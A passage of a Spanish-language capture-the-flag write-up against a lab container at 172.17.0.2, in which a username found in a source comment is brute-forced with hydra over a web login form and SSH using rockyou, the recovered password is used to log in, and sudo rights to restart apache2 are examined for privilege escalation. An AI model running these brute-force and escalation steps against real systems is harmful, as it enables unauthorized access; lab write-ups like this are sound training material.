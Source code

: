 Revisando el codigo fuente: desde el **modoDesarrollador** tenemos el siguiente comentario:
```bash
 I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. 
```

Tenemos otro posible usuario: **kinder** asi que despues de probar para el panel de login:
```bash
hydra -l kinder -P diccionario.txt 172.17.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid credentials" -t 4 -f
```

Ahora probamos este mismo usuario para **ssh**
```bash
hydra -l kinder -P diccionario.txt -t 4 -f ssh://172.17.0.2
```

Ahora probamos con el diccionari **rockyou**:
```bash
hydra -l Kinder -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 -I
```


---
## Explotacion de Vulnerabilidades

### Intrusion
Ahora que tenemos las credenciales nos conectaremos por ssh
```bash
[22][ssh] host: 172.17.0.2   login: Kinder   password: medusa
```

```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh Kinder@172.17.0.2
```

---

## Escalada de Privilegios

###### Usuario `[ Kinder ]`:
Listando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User Kinder may run the following commands on 5f1c5e63ed24:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

Como podemos **reiniciar** el servicio de **apache2** nos aprovecharemos para modificar archivos de este servicio:
```bash
find / -iname "apache2*" 2>/dev/null
```
